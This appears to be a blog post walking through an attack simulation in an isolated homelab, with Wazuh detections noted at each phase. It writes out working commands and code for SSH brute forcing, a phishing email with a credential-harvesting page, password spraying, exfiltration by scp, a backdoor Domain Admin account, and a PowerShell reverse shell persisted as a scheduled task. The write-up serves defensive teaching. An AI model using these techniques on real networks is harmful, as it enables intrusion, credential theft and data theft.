





With the vulnerable environment fully configured, my next step was to simulate a realistic end-to-end cyber attack against my **Project X** network.

<!--more-->

In this part of the series, I carried out the attack from the perspective of a financially motivated threat actor operating from the Kali Linux attacker node inside my **Business-in-a-Box** homelab.

My objectives were to:
- Gain initial access
- Move laterally across the network
- Escalate privileges
- Exfiltrate sensitive data
- Establish persistence inside the domain

The simulation follows the **Cyber Attack Lifecycle**, where each phase naturally progresses into the next - closely resembling how I've seen real-world attacks unfold inside enterprise environments.

> ⚠️ **Disclaimer:** I performed this simulation entirely inside my isolated homelab environment for cybersecurity education and defensive research purposes only.


*Here is the overall cyber attack lifecycle I used throughout this simulation, from reconnaissance to persistence.*


*This maps out the attack path I took between my attacker machine, enterprise hosts, email infrastructure, and domain controller during the simulation.*

## The Scenario

I acted as a financially motivated attacker targeting Project X to steal proprietary files and credentials. I operated from my Kali Linux machine (`project-x-attacker`, `10.0.0.50`), treating `project-x-corp-server` as if it were internet-facing.

| | |
|---|---|
| 🧠 **My Motive** | Financially Motivated |
| 🏆 **My Goal** | Exfiltrate sensitive data and maintain persistent access |

## Phase 1 - Reconnaissance

**VMs I used:** `project-x-sec-box`, `project-x-corp-server`, `project-x-attacker`

Reconnaissance is about gathering as much information as possible before touching anything. My goal was to map the target's systems and identify potential entry points - without triggering any alarms.

On my attacker machine, I ran an Nmap scan across the network:

```bash
nmap -p1-1000 -Pn -sV 10.0.0.8/24
```


*My `nmap` scan results showing `10.0.0.8` returning open ports, specifically port 22 (SSH). This was my first piece of intelligence gathered on the target.*

The results revealed that `10.0.0.8` (`project-x-corp-server`) was up and running **SSH on port 22**. I didn't yet know what kind of server this was - a jumphost, a license server, or something else entirely. But SSH was open, and that was enough to proceed.

### Brute-Forcing SSH with Hydra

I used Hydra with the `rockyou.txt` wordlist - a dictionary of millions of commonly used passwords that ships with Kali:

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.8
```

![Hydra brute-force command running and then returning a successful hit, the output line showing `[22][ssh], host: 10.0.0.8, login: root, password: november`.](screenshot2.png)
*Running my Hydra brute-force command. After a short wait, it returned a successful hit for the root account.*

After a few minutes, Hydra returned a hit. I logged in:

```bash
ssh root@10.0.0.8
# password: november
```


*My successful SSH login as root, dropping me right into the corporate server's shell.*

I was in. Reconnaissance had successfully transitioned directly into initial access.

## Phase 2 - Initial Access

**VMs I used:** `project-x-sec-box`, `project-x-corp-server`, `project-x-attacker`, `project-x-linux-client`

Initial access means establishing a foothold. I had already broken into the corporate server - now I needed to understand what it was and what else I could reach from there.

### Post-Compromise Reconnaissance on project-x-corp-server

```bash
cat /etc/os-release     # OS version and distro
hostname                # device hostname
ip a                    # IP address and interfaces
netstat -tuln           # active listening services
ps aux                  # running processes
ls -la /home            # check user directories
find / -name "password" 2>/dev/null   # hunt for credential files
```


*Checking `netstat -tuln` from my SSH session revealed port 1025 (SMTP/MailHog) and 8025 (MailHog web interface) listening. This was my phishing vector.*

One finding stood out: **SMTP port 1025 was listening**. I queried the MailHog API directly:

```bash
curl http://10.0.0.8:8025/api/v2/messages
```


*Querying the MailHog API gave me a JSON response showing internal emails, including one to `janed@linux-client`.*


*I found a user on the internal network: `janed@linux-client`. I now had a target for my phishing campaign.*

### Setup the Phish

On my attacker machine, I set up a credential-harvesting website - a fake "password verification" page that logged whatever a user typed in:

```bash
cd /var/www/html
git clone https://github.com/collinsmc23/projectsecurity-e101
sudo touch /var/www/html/creds.log
sudo chmod 666 /var/www/html/creds.log
sudo service apache2 start
```


*Here is the fake credential-harvesting page I spun up on my Kali machine. This is exactly what Jane would see.*


*Testing my `creds.log` file to make sure it was successfully capturing submitted credentials.*

### Send the Phishing Email

From my SSH session on `project-x-corp-server`, I created a Python script that sent a phishing email impersonating the ProjectX Security Team, with a link pointing back to my attacker machine at `10.0.0.50`:

```python
import smtplib
from email.message import EmailMessage

msg = EmailMessage()
msg["Subject"] = "Update Password!"
msg["From"] = "corpserver@example.com"
msg["To"] = "janed@linux-client"
msg.set_content("Hey Jane! This is HR, make sure to update your password info.")

html_content = """
<html><body>
  <p>Hey Jane!<br>
  We noticed an unusual login attempt on your account...
  Please verify your credentials within the next 24 hours.
  <br><br>
  <a href='http://10.0.0.50'>Verify My Account</a>
  </p>
</body></html>
"""
msg.add_alternative(html_content, subtype='html')

with smtplib.SMTP("localhost", 1025) as server:
    server.send_message(msg)
```

```bash
sudo python3 send_email.py
```

### The Phish Lands

On `project-x-linux-client`, the email poller picked up my new message from MailHog and alerted the terminal. Jane sees the notification and clicks the link.


*On the Linux client side, my `email_poller.sh` script alerted Jane to the new "urgent" email.*


*Jane visiting my phishing link and typing in her credentials.*

Going back to my attacker machine:

```bash
cat /var/www/html/creds.log
```


*The payoff: checking my `creds.log` and finding Jane's captured credentials in plain text.*

I used those credentials to SSH into the Linux client:

```bash
ssh janed@10.0.0.101
```


*Using Jane's credentials, I successfully SSH'd into `project-x-linux-client`. Two machines compromised.*

## Phase 3 - Lateral Movement + Privilege Escalation

**VMs I used:** `project-x-sec-box`, `project-x-linux-client`, `project-x-win-client`, `project-x-dc`, `project-x-attacker`

From `project-x-linux-client`, I ran another Nmap scan to map the rest of the network:

```bash
nmap -Pn -p1-65535 -sV 10.0.0.0/24
```


*My internal Nmap scan found `10.0.0.100` with WinRM ports 5985 and 5986 wide open.*

Ports 5985 and 5986 were open on `10.0.0.100` - those are WinRM ports. WinRM is a legitimate Windows administration protocol that I know is commonly abused for lateral movement and remains highly relevant in today's threat landscape.

### Password Spraying with NetExec

I created `users.txt` and `pass.txt` using the administrator credentials from my earlier reconnaissance:

```bash
# users.txt
Administrator

# pass.txt
@Deeboodah1!
```

```bash
nxc winrm 10.0.0.100 -u users.txt -p pass.txt
```

![`nxc winrm` command output returning a successful hit, the green `[+] 10.0.0.100 Administrator:@Deeboodah1! (Pwn3d!)` line confirming the credential spray worked.](screenshot14.png)
*My NetExec credential spray returned a successful hit against the Administrator account.*

### Establishing a Shell with Evil-WinRM

```bash
evil-winrm -I 10.0.0.100 -u Administrator -p @Deeboodah1!
```


*I dropped into an Evil-WinRM shell, giving me full Administrator access over the Windows client.*

I now had a PowerShell session on `project-x-win-client` as Administrator. Privilege escalation achieved.


*On the blue team side, my Wazuh SIEM successfully triggered a WinRM Logon alert based on this activity.*

## Phase 4 - Lateral Movement 2.0 (Pivoting to the Domain Controller)

**VMs I used:** `project-x-sec-box`, `project-x-win-client`, `project-x-dc`, `project-x-attacker`

From inside the Windows client session, I checked what domain this workstation belonged to:

```powershell
nltest /dsgetdc:
```


*Querying the domain showed me the domain controller was sitting at `10.0.0.5`.*

The domain controller was at `10.0.0.5` and port **3389 (RDP)** was open. Since I had valid Administrator credentials, I tried RDP from my attacker machine using XFreeRDP:

```bash
xfreerdp /v:10.0.0.5 /u:Administrator /p:@Deeboodah1! /d:corp.project-x-dc.com
```


*I successfully RDP'd into the Domain Controller. This was my "keys to the kingdom" moment.*

I was now on the **Domain Controller**. Browsing the file system, I found exactly what I was after inside `C:\Users\Administrator\Documents\ProductionFiles\secrets.txt`.


*Finding my target file `secrets.txt` safely stored on the DC.*


*My Wazuh File Integrity Monitoring caught me opening the file, triggering an alert.*

## Phase 5 - Data Exfiltration

**VMs I used:** `project-x-sec-box`, `project-x-dc`, `project-x-attacker`

With access to the domain controller and the file located, I used `scp` to copy it directly back to my attacker machine:

```cmd
scp ".\secrets.txt" attacker@10.0.0.50:/home/attacker/my_sensitive_file.txt
```


*Using `scp` to exfiltrate the file out of the network.*


*The sensitive data successfully landed on my Kali machine.*


*Wazuh catching the file access on the DC side.*

## Phase 6 - Persistence

**VMs I used:** `project-x-sec-box`, `project-x-dc`, `project-x-attacker`

The attack isn't over until I ensure I can return. Persistence means maintaining access even after a reboot or partial remediation.

### Create a Backdoor Account

On the domain controller, using my active session:

```cmd
net user project-x-user @mysecurepassword1! /add
net localgroup Administrators project-x-user /add
net group "Domain Admins" project-x-user /add
net user project-x-user /domain
```


*I created a backdoor account and added it to the Domain Admins group.*


*A quick check in ADUC confirming my rogue account was successfully created.*

### Scheduled Task with Reverse Shell

I created a basic PowerShell reverse shell script (`reverse.ps1`) on my attacker machine, hosted it with a Python HTTP server, and downloaded it onto the domain controller:

```bash
# On attacker machine - create the reverse shell script
sudo nano reverse.ps1
```

```powershell
$ip = "10.0.0.50"   # Attacker IP
$port = 4444
$client = New-Object System.Net.Sockets.TCPClient($ip, $port)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)
$writer.AutoFlush = $true
$writer.WriteLine("Connected to reverse shell!")
while ($true) {
    try {
        $command = $reader.ReadLine()
        if ($command -eq 'exit') { break }
        $output = Invoke-Expression $command 2>&1
        $writer.WriteLine($output)
    } catch {
        $writer.WriteLine("Error: $_")
    }
}
$client.Close()
```

I served the script from my attacker machine:

```bash
python -m http.server
```

On the DC, I downloaded `reverse.ps1` to `C:\Users\Administrator\AppData\Local\Microsoft\Windows\` via the browser at `http://10.0.0.50:8000`, then scheduled it as a daily task:

```cmd
schtasks /create /tn "PersistenceTask" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Users\Administrator\AppData\Local\Microsoft\Windows\reverse.ps1" /sc daily /st 12:00
```

I started the listener on my attacker machine:

```bash
nc -lvnp 4444
```

Then I manually triggered the shell on the DC to test it:

```powershell
Set-ExecutionPolicy Unrestricted -Scope Process
.\reverse.ps1
```


*My reverse shell connected back successfully!*


*Confirming my scheduled task was set to run daily, ensuring persistence.*

## Phase 7 - Defense Evasion

At this stage, a real attacker would work to cover their tracks - clearing event logs, obfuscating the backdoor account name, disabling endpoint security controls, or removing indicators of compromise from the SIEM. In this lab, my focus was on demonstrating how each stage of the attack creates a detectable footprint in Wazuh. I will explore defense evasion techniques in a dedicated future write-up.

## Conclusion

And that completes the full lifecycle - from reconnaissance through to persistence.

Is this a perfect replica of a real-world attack? No - in reality, my attacker machine would never sit on the same subnet as the target, and modern enterprise environments are far better hardened than what I configured here. But that's not the point.

The value of an exercise like this is developing an intuition for **how attacks chain together**, why misconfigurations matter, and how defensive tools like Wazuh create visibility at each phase. Every command I ran left a log somewhere. Every lateral movement generated an authentication event. Every file access triggered a FIM alert.

That's the lesson: **attackers leave footprints. It's my job to know where to look.**

*Stay tuned for future posts where I'll explore more advanced network attack scenarios, cloud security labs, and deeper SIEM analysis.*
